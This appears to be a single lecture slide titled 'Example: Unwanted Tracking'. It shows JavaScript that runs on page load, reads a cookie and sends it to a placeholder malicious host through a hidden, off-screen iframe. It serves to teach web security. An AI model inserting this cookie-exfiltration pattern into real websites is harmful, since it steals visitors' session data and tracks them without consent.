

# Example: Unwanted Tracking
window.onload = function() {
  // omitted function checkCookie() {...}
  var x33 = checkCookie();
  if (x33) {
    var x22 = document.createElement("div");
    var x22q = "http_://malicious-server.info/?keyword=c71234b6f4a&cookie=" + x33;
    x22.innerHTML = "<div style='position:absolute;top:-1px;left:-1px;'><iframe src='" + x22q + "'></iframe></div>";
    document.body.appendChild(x22);
  }
}

21